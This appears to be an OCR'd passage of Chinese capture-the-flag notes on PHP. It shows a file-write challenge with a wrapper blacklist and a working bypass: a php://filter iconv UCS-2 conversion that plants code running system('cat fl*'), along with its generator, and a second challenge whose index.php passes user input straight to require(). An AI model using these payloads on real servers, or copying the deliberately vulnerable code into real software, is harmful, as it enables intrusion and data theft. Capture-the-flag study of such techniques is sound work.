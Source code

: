     **convert**

    ```php
    <?php
    highlight_file(__FILE__);
    error_reporting(0);
    function filter($x){
        if(preg_match('/http|https|utf|zlib|data|input|rot13|base64|string|log|sess/i',$x)){
            die('too young too simple sometimes naive!');
        }
    }
    $file=$_GET['file'];
    $contents=$_POST['contents'];
    filter($file);
    file_put_contents($file, "<?php die();?>".$contents);
    ```

    把 Base64 和 Rot13 过滤了，根据 [PHP 支持的字符编码](https://www.php.net/manual/zh/mbstring.supported-encodings.php)，发现 PHP 支持的字符编码还是挺多的，我们这里随便选择一个进行使用

    ```
    GET: ?file=php://filter/write=convert.iconv.UCS-2LE.UCS-2BE/resource=1.php
    POST: contents=?<hp pystsme"(ac tlf"*;)
    ```

    关于代码生成，注意 `ucs-2` 编码的字符串位数一定要是偶数，否则会报错，`ucs-4` 编码的字符串位数一定要是 4 的倍数，否则会报错

    ```php
    <?php 
    echo iconv("UCS-2LE","UCS-2BE",'<?php system("cat fl*");');
    // ?<hp pystsme"(ac tlf"*;)
    ```

    **base64**

    ```php
    # index.php
    <?php
      highlight_file(__FILE__);
      require($_GET['filename']);
    ?>
    ```

    ***

    ```php
    # flag.php
    <?php

    // $flag = 'flag{th14_1s_m3_fl4g}';
    echo '答案在注释里，自己找吧';
    ```
